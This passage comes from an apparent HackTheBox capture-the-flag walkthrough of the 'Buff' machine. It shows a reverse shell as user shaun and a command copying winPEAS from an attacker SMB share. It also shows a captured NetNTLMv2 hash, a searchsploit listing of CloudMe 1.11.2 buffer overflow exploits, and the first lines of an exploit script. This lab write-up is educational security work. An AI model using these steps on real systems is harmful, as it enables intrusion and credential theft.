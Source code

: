```shell
   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::24c
   IPv6 Address. . . . . . . . . . . : dead:beef::cce7:3d94:609d:5fc0
   Temporary IPv6 Address. . . . . . : dead:beef::f4de:d5a0:4fac:271e
   Link-local IPv6 Address . . . . . : fe80::cce7:3d94:609d:5fc0%10
   IPv4 Address. . . . . . . . . . . : 10.10.10.198
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:8918%10
                                       10.10.10.2
C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```
We obtained a reverse shell as `shaun` on `Buff`.

> Note: This windows shell uses `type` to read files, instead of `more`

## Privilege escalation
To escalate privileges we can try to execute `winpeas` and check the privesc vulnerabilities:
```shell
C:\Users\shaun\Desktop>copy \\10.10.14.6\smbFolder\winPEASx64_ofs.exe .\winpeas.exe
copy \\10.10.14.6\smbFolder\winPEASx64_ofs.exe .\winpeas.exe
        1 file(s) copied.
C:\Users\shaun\Desktop>.\winpeas.exe
͹ Enumerating Security Packages Credentials
  Version: NetNTLMv2
  Hash:    shaun::BUFF:1122334455667788:8b4531a493e7d27248ee48fd567ef133:0101000000000000f0e2ed99ea83d801b2d48db1dd1b7fe50000000008003000300000000000000000000000002000003a087f26cfffb9410fedc4130c698f7913fe32dfb3e71db209a83440bc2642de0a00100000000000000000000000000000000000090000000000000000000000
͹ Searching executable files in non-default folders with write (equivalent) permissions (can be slow)
  File Permissions "C:\Users\shaun\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\AC\#!001\MicrosoftEdge\Cache\WEIKCYS4\CloudMe_1112[1].exe": shaun [AllAccess]
```
We can try to bruteforce `shaun`'s password, but first, we will enumerate vulnerabilities for `CloudMe 1.11.2`:
```shell
❯ searchsploit CloudMe 1.11.2
------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                             |  Path
------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                                                                                     | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                                                                            | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)                                                                                            | windows/local/48840.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt                                                                                            | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)                                                                                   | windows_x86-64/remote/46250.py
------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
We can see this version is vulnerable to Buffer Overflow:
```shell
import socket
import argparse

args = argparse.ArgumentParser()
```